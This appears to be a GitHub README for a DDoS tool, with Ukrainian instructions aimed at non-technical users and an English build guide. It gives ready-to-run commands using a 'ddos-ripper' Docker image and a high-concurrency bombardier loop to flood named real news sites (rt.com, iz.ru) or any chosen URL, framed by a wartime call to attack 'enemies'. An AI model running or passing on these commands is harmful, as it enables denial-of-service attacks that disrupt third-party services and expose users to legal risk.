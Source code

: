 # Для нетехнічних котиків і киць
Інструкція як шкварити сайти хуйловської пропаганди:
1. Встановіть Docker Desktop за цим посиланням:
    https://docs.docker.com/desktop/windows/install/
2. Встановіть і увімкніть VPN
3. Запустіть термінал:
    http://xn--j1a5b.dp.ua/yak-vidkriti-komandnij-ryadok-v-windows-10/
4. Запустіть наступну команду, щоб шварити www.rt.com
    docker run --rm -it nitupkcuf/ddos-ripper:latest www.rt.com
5. Запустіть наступну команду, щоб шварити список сайтів
    for %s in (http://iz.ru/ http://rt.com/) do docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l %s
6. Щоб призупинити зашквар і трохи провітрити хату натисніть Ctrl+C

Слава Україні! Смерть ворогам!

# Docker
1. Install Docker Desktop for your plaform:
  - [Windows](https://docs.docker.com/desktop/windows/install)
  - [Linux](https://docs.docker.com/engine/install/ubuntu/)
  - [Mac](https://docs.docker.com/desktop/mac/install)
2. Run command, put your actual url instead of www.abc.com :
```
docker run --rm -it nitupkcuf/ddos-ripper:latest www.abc.com
```

# Run from CLI/sources
Python 3.10

```
git clone https://github.com/nanabanano/runner.git
cd runner
pip3 install pyinstaller
pip3 install -r requirements.txt

# mac
pyinstaller app.py --collect-all dns --add-data="headers.txt:." --add-data="DRipper.py:." --onefile

# win
pyinstaller --collect-all dns --add-data "headers.txt;." --add-data "DRipper.py;." --onefile app.py

```
see dist folder
